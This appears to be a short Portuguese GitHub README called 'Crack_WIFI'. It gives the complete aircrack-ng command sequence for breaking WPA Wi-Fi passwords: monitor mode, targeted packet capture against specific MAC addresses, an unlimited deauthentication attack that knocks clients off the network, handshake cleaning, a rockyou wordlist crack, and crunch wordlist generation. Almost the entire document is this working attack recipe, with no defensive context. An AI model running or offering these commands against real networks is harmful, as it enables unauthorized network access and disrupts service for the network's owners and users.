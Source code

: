 # Crack_WIFI
Crack_WIFI <br>
 <br>
airmon-ng check wlan0  <br>
airmon-ng check kill  <br>
airmon-ng start wlan0  <br>
airodump-ng wlan0 -a --band abg  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg wlan0  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg -w captura wlan0  <br>
aireplay-ng --deauth 0 -a E4:C0:E2:1C:6E:6B -c 28:87:BA:3A:AF:CF wlan0  <br><br>
<b> APENAS DEPOIS DE APARECER NO CAMPO NOTES EAPOL, PARA PODER PARAR A CAPTURA  </b> <br><br>
![IMAGE01](https://github.com/fernandomxm/Crack_WIFI/blob/main/image01.png) 
![IMAGE02](https://github.com/fernandomxm/Crack_WIFI/blob/main/wpa-4-way-handshake-workflow.png) <br> <br>
PODE SER UTILIZADO: wpaclean, para gerar o arquivo .cap "LIMPO", apenas com EAPOL: <br>
<b>wpaclean clean.cap captura.cap</b>  <br><br>
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b E4:C0:E2:1C:6E:6B captura.cap  <br>
<br>
Para gerar a wordlist pode ser usado o: <br>
crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha -o wordlist.txt <br>
<br>
O parâmetro PWR é o sinal WIFI. Quando mais perto de 0, melhor o sinal.  <br>
